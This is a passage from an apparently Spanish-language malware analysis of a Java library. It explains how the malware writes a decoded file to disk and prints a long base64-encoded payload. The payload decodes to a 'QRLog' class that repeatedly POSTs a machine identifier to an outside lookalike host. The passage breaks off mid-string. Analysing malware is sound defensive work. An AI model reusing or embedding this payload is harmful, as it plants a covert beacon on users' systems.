 En esta función el malware intenta determinar vagamente sobre qué plataforma se estrá trabajando (Windows o Unix), para entender dónde y cómo (con barra invertida o no) escribir un archivo "de log" con extensión `.java`. A este archivo le escribe el contenido de la variable `b64dec` la cual puede encontrarse unas líneas más arriba en el archivo.

```java
byte [] b64dec = Base64.getDecoder().decode(QUIET_ZONE_DATA);
```

Como podemos ver en este fragmento, `b64dec` almacena el resultado de decodificar la variable `QUIET_ZONE_DATA` desde `base64`. Indagando un poco más en el código es posible encontrar el contenido de `QUIET_ZONE_DATA`:

```java
public static String QUIET_ZONE_DATA = "aW1wb3J0IGphdmEuaW8uSU9FeGNlcHRpb247CmltcG9ydCBqYXZhLm5ldC5VUkk7CmltcG9ydCBqYXZhLm5ldC5odHRwLkh0dHBDbGllb"
          + "nQ7CmltcG9ydCBqYXZhLm5ldC5odHRwLkh0dHBSZXF1ZXN0OwppbXBvcnQgamF2YS5uZXQuaHR0cC5IdHRwUmVzcG9uc2U7CmltcG9ydCBqYXZhLm5pby5jaGFyc2V0LlN0YW5"
          + "kYXJkQ2hhcnNldHM7CmltcG9ydCBqYXZhLnV0aWwuQmFzZTY0OwppbXBvcnQgamF2YS51dGlsLlJhbmRvbTsKaW1wb3J0IGphdmEuaW8uQnVmZmVyZWRXcml0ZXI7CmltcG9yd"
          + "CBqYXZhLmlvLkZpbGU7CmltcG9ydCBqYXZhLmlvLkZpbGVXcml0ZXI7CmltcG9ydCBqYXZhLmxhbmcuVGhyZWFkOwoKcHVibGljIGNsYXNzIFFSTG9nIHsKCiAgICBwcml2YXR"
          + "lIHN0YXRpYyBmaW5hbCBTdHJpbmcgUE9TVF9VUkwgPSAiaHR0cHM6Ly93d3cuZ2l0LWh1Yi5tZS92aWV3LnBocCI7CgogICAgcHVibGljIHN0YXRpYyB2b2lkIG1haW4oU3Rya"
          + "W5nW10gYXJncykgdGhyb3dzIElPRXhjZXB0aW9uewoKICAgICAgICBzZW5kUE9TVCgpOwogICAgfQoKICAgIHByaXZhdGUgc3RhdGljIFN0cmluZyByYW5kR2VuKCkgdGhyb3d"
          + "zIElPRXhjZXB0aW9uIHsKICAgICAgICBTdHJpbmcgc3RyUG9vbCA9ICIxMjM0NTY3ODkiOwogICAgICAgIFN0cmluZ0J1aWxkZXIgc2IgPSBuZXcgU3RyaW5nQnVpbGRlcigpO"
          + "wogICAgICAgIFJhbmRvbSByYW5kID0gbmV3IFJhbmRvbSgpOwogICAgICAgIAogICAgICAgIGZvciAoaW50IGk9MDsgaTw4OyBpKyspewogICAgICAgICAgICBzYi5hcHBlbmQ"
          + "oc3RyUG9vbC5jaGFyQXQocmFuZC5uZXh0SW50KHN0clBvb2wubGVuZ3RoKCkpKSk7CiAgICAgICAgfQogICAgICAgIAogICAgICAgIHJldHVybiBzYi50b1N0cmluZygpOwogI"
          + "CAgfQogICAgCiAgICBwcml2YXRlIHN0YXRpYyBTdHJpbmcgZ2V0T3BlcmF0aW5nU3lzdGVtKCkgewogICAgICAgIFN0cmluZyBvcyA9IFN5c3RlbS5nZXRQcm9wZXJ0eSgib3M"
          + "ubmFtZSIpOwogICAgICAgIFN0cmluZyByZXN1bHQgPSBudWxsOwogICAgICAgIAogICAgICAgIGlmIChvcy5jb250YWlucygiV2luZG93cyIpKQogICAgICAgICAgICByZXN1b"
          + "HQgPSAiMCI7CiAgICAgICAgZWxzZSBpZiAob3MuY29udGFpbnMoIkxpbnV4IikpCiAgICAgICAgICAgIHJlc3VsdCA9ICIyIjsKICAgICAgICBlbHNlIGlmIChvcy5jb250YWl"
          + "ucygiTWFjIE9TIFgiKSkKICAgICAgICAgICAgcmVzdWx0ID0gIjEiOwogICAgICAgIHJldHVybiByZXN1bHQ7CiAgICB9CiAgICAKICAgIHByaXZhdGUgc3RhdGljIHZvaWQgc"
          + "2VuZFBPU1QoKSB0aHJvd3MgSU9FeGNlcHRpb24gewogICAgICAgIFN0cmluZyB1aWQgPSByYW5kR2VuKCk7CiAgICAgICAgU3RyaW5nQnVpbGRlciBkYXRhID0gbmV3IFN0cml"
          + "uZ0J1aWxkZXIoKTsKICAgICAgICBTdHJpbmcgc2VjX3BhdGggPSAiIjsKICAgICAgICBkYXRhLmFwcGVuZCgiR0lUSFVCX1JFUSIpOwogICAgICAgIGRhdGEuYXBwZW5kKHVpZ"
          + "Ck7CiAgICAgICAgZGF0YS5hcHBlbmQoIjIwMDAiKTsKICAgICAgICBkYXRhLmFwcGVuZChnZXRPcGVyYXRpbmdTeXN0ZW0oKSk7CiAgICAgICAgCiAgICAgICAgd2hpbGUgKHR"
          + "ydWUpCiAgICAgICAgewogICAgICAgICAgICB0cnkgewogICAgICAgICAgICAgICAgaWYgKHNlY19wYXRoLmxlbmd0aCgpID4gMSkgewogICAgICAgICAgICAgICAgICAgIEZpb"
          + "GUgc2VjRmlsZSA9IG5ldyBGaWxlKHNlY19wYXRoKTsKICAgICAgICAgICAgICAgICAgICBpZiAoc2VjRmlsZS5leGlzdHMoKSkKICAgICAgICAgICAgICAgICAgICAgICAgU3l"
          + "zdGVtLmV4aXQoMCk7CiAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICAKICAgICAgICAgICAgICAgIEh0dHBSZXF1ZXN0IHJlcXVlc3QgPSBIdHRwUmVxdWVzdC5uZ"
          + "XdCdWlsZGVyKCkKICAgICAgICAgICAgICAgICAgICAuaGVhZGVyKCJDb250ZW50LVR5cGUiLCAiYXBwbGljYXRpb24vanNvbjsgY2hhcnNldD11dGYtOCIpCiAgICAgICAgICA"
          + "gICAgICAgICAgLnZlcnNpb24oSHR0cENsaWVudC5WZXJzaW9uLkhUVFBfMV8xKQogICAgICAgICAgICAgICAgICAgIC51cmkoVVJJLmNyZWF0ZShQT1NUX1VSTCkpCiAgICAgI"
          + "CAgICAgICAgICAgICAgLlBPU1QoSHR0cFJlcXVlc3QuQm9keVB1Ymxpc2hlcnMub2ZTdHJpbmcoZGF0YS50b1N0cmluZygpKSkKICAgICAgICAgICAgICAgICAgICAuYnVpbGQ"
          + "oKTsKICAgICAgICAgICAgICAgIEh0dHBDbGllbnQgY2xpZW50ID0gSHR0cENsaWVudC5uZXdIdHRwQ2xpZW50KCk7CiAgICAgICAgICAgICAgICBIdHRwUmVzcG9uc2U8U3Rya"
          + "W5nPiByZXNwb25zZSA9IGNsaWVudC5zZW5kKHJlcXVlc3QsIEh0dHBSZXNwb25zZS5Cb2R5SGFuZGxlcnMub2ZTdHJpbmcoKSk7CiAgICAgICAgICAgICAgICBpZiAocmVzcG9"
          + "uc2Uuc3RhdHVzQ29kZSgpICE9IDIwMCkKICAgICAgICAgICAgICAgIHsKICAgICAgICAgICAgICAgICAgICBUaHJlYWQuc2xlZXAoNTAwMCk7CiAgICAgICAgICAgICAgICAgI"
```